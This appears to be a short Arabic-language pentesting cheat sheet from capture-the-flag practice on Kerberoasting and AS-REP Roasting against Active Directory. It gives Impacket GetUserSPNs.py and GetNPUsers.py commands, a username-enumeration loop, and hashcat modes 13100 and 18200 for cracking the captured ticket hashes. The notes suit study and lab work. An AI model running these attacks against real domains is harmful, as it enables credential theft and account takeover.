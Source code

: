 - الغرض منه هو البحث عن الحسابات المرتبطة بخدمات محددة (**Service Accounts**) واستخراج Ticket المشفرة.

```
GetUserSPNs.py -request -dc-ip <IP> <Domain>/<User> -save -outputfile <OutputFile>

ServicePrincipalName (SPN)

result may be hash use tool to decrept it like hashcat or john

hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force

13100 => $krb5tgs$23$*Administrator$ACTIVE.HTB$act
based on 23


```

# AS-REP Roasting

- الAS-REP Roasting هو نوع من الهجمات على بروتوكول **Kerberos** في بيئات **Active Directory**. هذا الهجوم يستغل الحسابات التي تكون خاصية **"Do not require Kerberos preauthentication"** مفعّلة لديها.
-  الخاصية دي معناها إن الحساب مش بيحتاج يثبت هويته (Pre-Authentication) قبل ما الـ KDC (Key Distribution Center) يرسل له التذكرة (TGT - Ticket Granting Ticket).
- - لما الحساب يكون عنده الخاصية دي، ممكن أي حد يطلب التذكرة (TGT) من KDC حتى بدون كلمة مرور، والتذكرة المرسلة بتكون مشفرة بمفتاح مشتق من كلمة مرور الحساب، وبالتالي يمكن كسرها للحصول على كلمة المرور.
- نستخدم GetNPUsers.py عشان نتأكد ان خاصيه **UF_DONT_REQUIRE_PREAUTH** مفعّلة علي ال list الطلعنها من rpc or smb or kerbrute
- لو مفعله بيرجع لنا التذكرة (TGT) المشفرة.
- لو مش مفعّلة، بيتم إعلامنا بذلك.
```
if have list call users.txt

for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done


or

python3 GetNPUsers.py  remo.htb/ -dc-ip 192.168.1.8 -request -usersfile users.txt  

if ansewr is 
	1- [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set [X]
	2- $krb5asrep$23$svc-alfresco@HTB:c213afe360b7bcbf08a522dcb423566c...



ف الحاله التانيه نستخدم اده لكسر التشفير مع مرعات ان 

18200 is AS-REP like :
	hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force

```
# GetUserSPNs.py 
```
python3 GetUserSPNs.py -dc-ip IP ~~~~~.LOCL/USER:PASSWORD -request
```
# RDP
